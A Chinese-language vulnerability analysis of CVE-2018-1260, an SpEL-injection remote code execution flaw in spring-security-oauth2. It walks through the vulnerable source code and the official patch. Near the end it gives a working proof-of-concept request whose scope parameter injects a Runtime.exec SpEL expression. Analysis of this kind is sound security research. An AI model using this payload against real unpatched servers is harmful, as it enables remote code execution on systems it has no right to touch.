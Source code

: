 ```yaml
---
layout: page
title: CVE-2018-1260 spring-security-oauth2 RCE Analysis
---
```



Auth by 格格

#### 介绍

根据Sping官方给出的公告信息，spring-security-oauth若干版本中包含一个RCE漏洞,恶意攻击者构造特定授权请求，当资源所有者将其转发给approval批准页面时可导致远程代码执行。

漏洞触发条件：
* 应用程序做为授权服务器角色 (例如使用注解@EnableAuthorizationServer)
* 使用默认的Approval Endpoint

实际开发中，大部分oauth2使用者一般都会重写Approval Endpoint以满足自身需求。所以初步看这个漏洞利用条件还是比较苛刻的。
受影响版本及详细可参考官方的公告：
> [Spring Security OAuth：versions 2.3 prior to 2.3.3 and 2.2 prior to 2.2.2 and 2.1 prior to 2.1.2 and 2.0 prior to 2.0.15 and older unsupported versions](https://pivotal.io/security/cve-2018-1260)

#### 漏洞DEMO分析

官方的[sample](https://github.com/spring-projects/spring-security-oauth/tree/master/tests/annotation/approval)示例代码及网络上关于oauth2的demo不少，以[Spring Security OAuth2 Demo工程](https://github.com/wanghongfei/spring-security-oauth2-example)为例新进行调试分析。作者给出了mysql表信息，创建数据库并添加一条测试数据即可以运行该demo，详细见sample代码库README描述。

可以看到这个demo启动类使用了@EnableAuthorizationServer注解，并且使用默认的授权批准页面。这里要说明的是authorization code模式的授权方式，如图所示：
![bg2014051204.png](http://www.ruanyifeng.com/blogimg/asset/2014/bg2014051204.png)
用户发起授权请求时，client端将用户导向认证服务器，用户认证后进行approval授权批准，用户approval后，认证服务器将用户导向client端事先指定的重定向URIredirection URI），同时附上一个授权码，client端拿这个授权码向认证服务器申请访问令牌及刷新令牌，从而完成Oauth授权。在spring-security-oauth2中默认由请求/oauth/authorize处理授权请求，代码如下：

```java
@RequestMapping(value = "/oauth/authorize")
	public ModelAndView authorize(Map<String, Object> model, @RequestParam Map<String, String> parameters,
			SessionStatus sessionStatus, Principal principal) {
		AuthorizationRequest authorizationRequest = getOAuth2RequestFactory().createAuthorizationRequest(parameters);

		Set<String> responseTypes = authorizationRequest.getResponseTypes();

		if (!responseTypes.contains("token") && !responseTypes.contains("code")) {
			throw new UnsupportedResponseTypeException("Unsupported response types: " + responseTypes);
		}

		if (authorizationRequest.getClientId() == null) {
			throw new InvalidClientException("A client id must be provided");
		}
    ....
    oauth2RequestValidator.validateScope(authorizationRequest, client);
    ....
    return getAuthorizationCodeResponse(authorizationRequest, (Authentication) principal);
    ....
      
```
逐步往下看，其中createAuthorizationRequest函数处理授权请求参数并构造AuthorizationRequest对象，主要包含一下参数：

* response_type：表示授权类型，必选项，授权码模式此处的值固定为"code"
* client_id：表示客户端的ID，必选项
* redirect_uri：表示重定向URI，可选项
* scope：表示申请的权限范围，可选项
* state：表示客户端的当前状态，可以指定任意值，认证服务器会原封不动地返回这个值。

而后面的validateScope会对scope参数进行校验检查，如果clientScopes不为空则进行白名单检查，如果授权请求传入的scope不在设置的clientScopes这个list中，则抛出异常Invalid scope,如果clientScopes为空，则仅校验输入的scope不为空即会继续执行程序。而这个漏洞的触发点正式scope参数，所以在示例demo中一定要设置clientScopes为空，这也是这个漏洞触发的一个前提条件。validateScope的代码如下：
```java
private void validateScope(Set<String> requestScopes, Set<String> clientScopes) {

		if (clientScopes != null && !clientScopes.isEmpty()) {
			for (String scope : requestScopes) {
				if (!clientScopes.contains(scope)) {
					throw new InvalidScopeException("Invalid scope: " + scope, clientScopes);
				}
			}
		}
		
		if (requestScopes.isEmpty()) {
			throw new InvalidScopeException("Empty scope (either the client or the user is not allowed the requested scopes)");
		}
	}
```
最后调用getAuthorizationCodeResponse将请求forward至/oauth/confirm_access页面，由用户进行approval批准授权，代码如下：
```java
// We need explicit approval from the user.
	private ModelAndView getUserApprovalPageResponse(Map<String, Object> model,
			AuthorizationRequest authorizationRequest, Authentication principal) {
		if (logger.isDebugEnabled()) {
			logger.debug("Loading user approval page: " + userApprovalPage);
		}
		model.putAll(userApprovalHandler.getUserApprovalRequest(authorizationRequest, principal));
		return new ModelAndView(userApprovalPage, model);
	}
```
这里userApprovalPage即为/oauth/confirm_access，model中包含了之前构造的授权请求AuthorizationRequest对象。[ModelAndView](https://docs.spring.io/spring/docs/current/javadoc-api/org/springframework/web/servlet/ModelAndView.html)简单说就是MVC框架中包含Model和View的对象，ModelAndView返回模型和视图后由DispatcherServlet解析处理该请求。随之程序进入/oauth/confirm_access，代码如下：
```java
@RequestMapping("/oauth/confirm_access")
	public ModelAndView getAccessConfirmation(Map<String, Object> model, HttpServletRequest request) throws Exception {
		String template = createTemplate(model, request);
		if (request.getAttribute("_csrf") != null) {
			model.put("_csrf", request.getAttribute("_csrf"));
		}
		return new ModelAndView(new SpelView(template), model);
	}
```
createTemplate函数创建模版视图，经过一些替换及拼接处理得到最终的template如下：
![oauth1.png](https://i.loli.net/2018/11/05/5be03700c7d9a.png)
然后调用了SpelView初始化view对象。传入ModelAndView展示approval批准授权页面，之后DispatcherServlet解析处理，之后通过view.render调用加载视图。
```java
try {
			view.render(mv.getModelInternal(), request, response);
		}
		catch (Exception ex) {
			if (logger.isDebugEnabled()) {
				logger.debug("Error rendering view [" + view + "] in DispatcherServlet with name '" +
						getServletName() + "'", ex);
			}
			throw ex;
		}
```
因为这里的view是SpelView对象，所以进入SpelView类的render方法：
```java
public void render(Map<String, ?> model, HttpServletRequest request, HttpServletResponse response)
			throws Exception {
		Map<String, Object> map = new HashMap<String, Object>(model);
		String path = ServletUriComponentsBuilder.fromContextPath(request).build()
				.getPath();
		map.put("path", (Object) path==null ? "" : path);
		context.setRootObject(map);
		String maskedTemplate = template.replace("${", prefix);
		PropertyPlaceholderHelper helper = new PropertyPlaceholderHelper(prefix, "}");
		String result = helper.replacePlaceholders(maskedTemplate, resolver);
		result = result.replace(prefix, "${");
		response.setContentType(getContentType());
		response.getWriter().append(result);
	}
```
调试跟进replacePlaceholders函数，可以看到函数调用了parseStringValue方法，并将模版中每一个变量值都传入resolvePlaceholder方法将输入变量做为Spel表达式去解析，resolvePlaceholder方法如下：
```java
public String resolvePlaceholder(String name) {
				Expression expression = parser.parseExpression(name);
				Object value = expression.getValue(context);
				return value == null ? null : value.toString();
			}
```
其中expression.getValue会最终调用继承了MethodExecutor的ReflectiveMethodExecutor执行java.lang.Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator")，从而造成任意代码执行漏洞。理论上这里传入的name参数包括_csrf.token、client、path、scope等参数只要可控，都可以造成代码执行。
![oauth2.png](https://i.loli.net/2018/11/05/5be036fe48deb.png)

#### 漏洞POC

http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/cryin/paper&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22/Applications/Calculator.app/Contents/MacOS/Calculator%22%29%7D


#### 补丁对比

通过补丁可以看到官方把SpelView去掉，转而使用普通的View对象，同时对默认模版进行了一些修改。
[Remove SpelView in WhitelabelApprovalEndpoint · spring-projects/spring-security-oauth@1c6815a · GitHub](https://github.com/spring-projects/spring-security-oauth/commit/1c6815ac1b26fb2f079adbe283c43a7fd0885f3d)：https://github.com/spring-projects/spring-security-oauth/commit/1c6815ac1b26fb2f079adbe283c43a7fd0885f3d

#### 总结
通过分析可知，这个漏洞触发的前提条件较多，除文章开头官方给出的两个条件外，授权服务的scope也需要设置为空，这种情况在实际应用中非常少见。但这个漏洞的重点不是Oauth本身，而是Spel表达式使用带来潜在的安全问题。诸如SpelView等涉及spel表达式解析的接口应该还很多。只要参数外部可控均有可能造成任意代码执行。这个问题有点和Struts2的OGNL表达式相似。Spel表达式注入可能是Spring后面会面临较多的安全问题。挖漏洞也可以从这个方向入手。

#### 参考

* [h3xStream's blog: Beware of the Magic SpEL(L) - Part 1 (CVE-2018-1273)](https://blog.h3xstream.com/2018/05/beware-of-magic-spell-part-1-cve-2018.html)
* [Remove SpelView in WhitelabelApprovalEndpoint · spring-projects/spring-security-oauth@1c6815a · GitHub](https://github.com/spring-projects/spring-security-oauth/commit/1c6815ac1b26fb2f079adbe283c43a7fd0885f3d)
* [GitHub - wanghongfei/spring-security-oauth2-example: Spring Security OAuth2 Demo工程](https://github.com/wanghongfei/spring-security-oauth2-example)
* [Spring Security OAuth](http://projects.spring.io/spring-security-oauth/docs/oauth2.html)
* [理解OAuth 2.0 - 阮一峰的网络日志](http://www.ruanyifeng.com/blog/2014/05/oauth_2_0.html?tdsourcetag=s_pctim_aiomsg)
* [spring-security-oauth/tests/annotation/approval at master · spring-projects/spring-security-oauth · GitHub](https://github.com/spring-projects/spring-security-oauth/tree/master/tests/annotation/approval)

